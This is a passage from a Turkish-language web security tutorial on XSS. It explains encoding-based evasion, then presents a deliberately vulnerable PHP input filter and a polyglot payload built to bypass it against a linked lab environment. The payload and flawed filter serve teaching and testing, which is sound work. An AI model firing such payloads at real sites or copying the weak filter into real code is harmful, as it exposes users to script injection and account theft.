 **Nasıl Çalışır:** html_entity_decode ve urldecode fonksiyonları, HTML ve URL encoded veriyi sırasıyla decode eder. Payload, önce HTML entity'leri decode edilir, ardından URL decode edilir ve JavaScript kodunu tetikler.

**Zaafiyet:** HTML ve URL encoding kombinasyonu, XSS payload'larının gizlenmesini sağlar, ancak doğru şekilde decode edilirse XSS saldırısına yol açabilir.

Bu örneklerde, kodlar farklı encoding türlerini kullanarak kullanıcı girdilerini işlemek için tasarlanmıştır. Ancak, her bir encoding ve obfuscation yöntemi XSS saldırılarına karşı tam bir koruma sağlamaz. Kodlarda kullanılan filtreleme ve encoding teknikleri, bazı XSS payload'larının tetiklenmesini önleyebilirken, diğerleri bu tekniklerden kaçabilir.

---

# Polyglot Payload ile XSS Attack

[Test ortamı](http://35.187.63.168/task2/polyglot/index.php)

PHP ile yazılmış bir web uygulamasında Polyglot XSS saldırılarını inceleyeceğiz. Polyglot XSS attack, farklı XSS vektörlerini birleştirerek birden çok güvenlik katmanını atlatmayı amaçlayan bir saldırı türüdür. Aşağıda verilen kodlar, çeşitli filtreleme fonksiyonları kullanarak kullanıcı girdilerini işlemek için tasarlanmıştır. Bu kodun belirli zafiyetlere sahip olup olmadığını ve bu zafiyetlerin nasıl kullanılabileceğini göreceğiz.

### Test Case 1

```php
<?php
  $userInput = isset($_GET['input']) ? $_GET['input'] : '';

  function filter1($input) {
    $filtered = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', "", $input);
    $filtered = preg_replace('/on\w+\s*=\s*"(?:.|\n)*?"/i', '', $filtered);
    $filtered = preg_replace('/data:\s*[^\s]*?base64[^\s]*/i', '', $filtered);
    $filtered = str_replace(['javascript:', 'expression('], '', $filtered);
    $filtered = str_replace(['iframe', 'eval', 'onload', 'img', 'onclick', 'onmouseout', 'ondblclick'], '', $filtered);
    return $filtered;
  }
  function echo1($str) {
    echo filter1($str);
  }
    echo "<p>" .  htmlspecialchars(echo1($userInput)) . "</p>";
?>
```

**Zafiyet:** filter fonksiyonu çeşitli tehlikeli etiketleri ve olayları kaldırsa da, `svg` ve `onmouseover` gibi bazı önemli XSS vektörlerini yeterince engellemez. Ayrıca, kullanıcı girdisi doğrudan ekrana yazdırılırken HTML özel karakterleri encode edilmez, bu da XSS saldırılarına açık bir durum yaratır.

**Yukarıdaki kodu bypass edecek bir payload**

```html
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>--><svg style="border:1px solid black" onload=/*<html/*/onmouseover=alert()//>
```
